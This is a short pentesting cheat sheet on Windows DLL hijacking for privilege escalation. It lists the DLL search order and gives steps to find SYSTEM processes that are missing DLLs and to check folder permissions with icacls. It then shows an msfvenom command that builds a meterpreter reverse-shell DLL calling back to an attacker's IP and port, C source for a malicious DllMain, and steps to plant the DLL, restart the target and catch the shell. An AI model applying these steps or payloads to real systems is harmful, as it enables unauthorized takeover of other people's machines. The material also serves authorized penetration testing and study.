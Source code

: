 ## DLL Hijacking

```text
When a process attempts to load a DLL, the system searches directories in the following order:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

1. List all the processes on the system and discover processes which are running as SYSTEM and are missing DLL’s using process monitor tool \(Sysinternals\)

   ```text
   Result is NAME NOT FOUND
   Path ends with dll
   ```

2. Identify a writable location \(folder\) \(directory from which the application is loaded, PATH environment variables\)

   ```text
   C:\> icacls [path]
   ```

3. Use msfvenom to generate a DLL that contains a payload

   ```text
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={attack ip} LPORT={attack port} -f dll > output.dll
   ```

   Or compile the below dll

4. Rename the dll to the name of the missing dll and drop it to one of the writable folders that windows are loading DLL files
5. Restart the process :`kill [pid]`. Or, if cannot restart the process, then restart the machine: `shutdown /r /t 0`
6. Fire up a handler to catch the shell

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt"); //payload here
        ExitProcess(0);
    }
    return TRUE;
}
```
